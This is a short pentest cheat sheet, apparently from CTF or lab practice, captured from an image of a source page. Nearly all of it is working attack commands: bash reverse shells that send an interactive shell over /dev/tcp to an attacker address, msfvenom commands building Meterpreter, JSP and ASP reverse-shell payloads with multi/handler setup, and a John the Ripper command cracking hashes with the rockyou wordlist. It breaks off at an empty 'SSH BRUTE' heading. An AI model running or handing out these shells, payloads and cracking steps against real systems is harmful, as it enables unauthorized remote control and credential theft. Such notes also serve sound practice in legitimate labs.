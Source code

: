 # TTY Shell

python -c "import pty;pty.spawn('/bin/bash')" 

TTYSHELL when no python: 

export RHOST=10.10.14.38 

bash -c 'bash -i &>/dev/tcp/$RHOST/7070 0<&1' 

bash -c 'bash -i &>/dev/tcp/10.10.14.38/7171 0<&1' 

 
# MSFVENOM MULTIHANDLER

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.0.44 LPORT=6969 -f raw -o shell.jsp 

Use exploit multi/handler 

Set payload windows/meterpreter/reverse_tcp 

Set LHOST 

Set LPORT 

 
# MSFVENOM PAYLOADS

java/jsp_shell_reverse_tcp 

windows/meterpreter/reverse_tcp 

windows/shell_reverse_tcp 

msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.0.44 LPORT=6969 -f raw -o shell.jsp 

msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.44 LPORT=6969 -f asp -o shell.asp 


# Export Path

export PATH=$PATH:/usr/bin

export TERM=xterm


# John

john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt 

--fork=# 

 
# SSH BRUTE
